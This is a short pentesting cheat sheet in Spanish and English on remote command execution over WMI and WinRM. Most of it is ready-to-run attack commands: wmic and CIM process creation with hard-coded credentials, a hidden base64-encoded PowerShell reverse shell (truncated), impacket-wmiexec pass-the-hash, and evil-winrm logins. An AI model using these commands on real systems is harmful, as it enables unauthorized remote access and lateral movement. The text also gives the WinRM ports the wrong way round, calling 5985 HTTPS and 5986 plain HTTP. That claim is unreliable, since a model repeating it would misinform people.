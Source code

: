 ## DESCRIPTION

Windows Management Instrumentation (WMI)  Remote Procedure Calls (RPC)2 over port 135 for remote access and uses a higher-range port (19152-65535) for session data.

As an alternative method to WMI for remote management, WinRM can be employed for remote hosts management. WinRM is the Microsoft version of the WS-Management8 protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5985 for encrypted HTTPS traffic and port 5986 for plain HTTP.
#### Mas información
* https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm
* https://www.hackplayers.com/2021/03/entendiendo-los-ataques-con-wmi.html

## EXPLOITATION

### OPTION 1: WMI DESDE WINDOWS

```
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```


### OPTION 2: WMI DESDE WINDOWS POWERSHELL

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```


### OPTION 2: WMI DESDE KALI
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E 
```


## WINRM

### OPTION 1: WINRM DESDE WINDOWS POWERSHELL

```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

### OPTION 12: WINRM DESDE KALI

```
evil-winrm -i 192.168.241.70 -u backupuser -p 'DonovanJadeKnight1'
```

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 